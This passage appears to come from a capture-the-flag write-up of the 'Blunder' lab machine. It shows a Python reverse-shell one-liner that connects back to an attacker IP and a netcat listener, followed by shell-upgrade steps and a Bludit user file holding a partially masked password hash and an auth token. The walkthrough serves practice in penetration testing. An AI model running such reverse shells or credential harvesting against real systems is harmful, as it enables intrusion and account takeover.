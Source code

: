 ```terminal
meterpreter > shell
Process 3103 created.
Channel 0 created.
whoami
www-data
```

Since this shell is not really functional, let's get one by setting up a netcat listner on our machine and executing this command on the target machine. `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.10.10",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'`.
>Note:don't forget to change the ip address on the code to yours!

```terminal
┌──(sirius㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.17.90] from (UNKNOWN) [10.10.10.191] 48274
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@blunder:$ export TERM=xterm
export TERM=xterm
www-data@blunder:$ ^Z
zsh: suspended  nc -lnvp 9001

┌──(sirius㉿kali)-[~]
└─$ stty raw -echo; fg                                                                                                                             148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 9001

www-data@blunder:$
```

## Hugo

As user **www-data** we can't do much. Searching through directories and files of one of the bludit folders located in **/var/www**, we find a file that has **Hugo**'s password hash.

```terminal
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823cxxxxxxxxxxx",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
```
